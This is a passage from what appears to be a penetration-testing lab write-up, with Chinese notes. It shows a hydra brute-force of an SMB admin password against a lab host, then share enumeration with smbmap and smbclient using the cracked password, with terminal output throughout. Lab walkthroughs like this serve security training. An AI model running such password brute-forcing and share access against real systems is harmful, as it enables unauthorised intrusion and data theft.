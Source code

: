 ```
root@attackdefense:~# hydra -l admin -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.58.213.3 smb
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-10-25 09:02:42
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 1009 login tries (l:1/p:1009), ~1009 tries per task
[DATA] attacking smb://192.58.213.3:445/
[445][smb] host: 192.58.213.3   login: admin   password: password1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-10-25 09:02:43
```

```
root@attackdefense:~# smbmap -u admin -p password1 -H 192.58.213.3
[+] Finding open SMB ports....
[+] User SMB session establishd on 192.58.213.3...
[+] IP: 192.58.213.3:445        Name: target-1                                          
        Disk                                                    Permissions
        ----                                                    -----------
        shawn                                                   READ, WRITE
        nancy                                                   READ ONLY
        admin                                                   READ, WRITE
        IPC$                                                    NO ACCESS
```

`-L`: 此选项允许您查看服务器上可用的服务。您将其用作`smbclient -L host`，应该会出现一个列表。

列出服务器上可用的共享。

`-U`: username是客户端用于建立连接的用户名，假设您的服务器正在运行允许用户名的协议。

```
root@attackdefense:~# smbclient -L 192.58.213.3 -U admin
Enter WORKGROUP\admin's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        shawn           Disk      
        nancy           Disk      
        admin           Disk      
        IPC$            IPC       IPC Service (brute.samba.recon.lab)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        RECONLABS       
```

```
root@attackdefense:~# smbclient '\\192.58.213.3\shawn' -U admin
Enter WORKGROUP\admin's password: 
Try "help" to get a list of possible commands.
smb: \> ?
?              allinfo        altname        archive        backup         
blocksize      cancel         case_sensitive cd             chmod          
chown          close          del            deltree        dir            
du             echo           exit           get            getfacl        
geteas         hardlink       help           history        iosize         
lcd            link           lock           lowercase      ls             
l              mask           md             mget           mkdir          
more           mput           newer          notify         open           
posix          posix_encrypt  posix_open     posix_mkdir    posix_rmdir    
```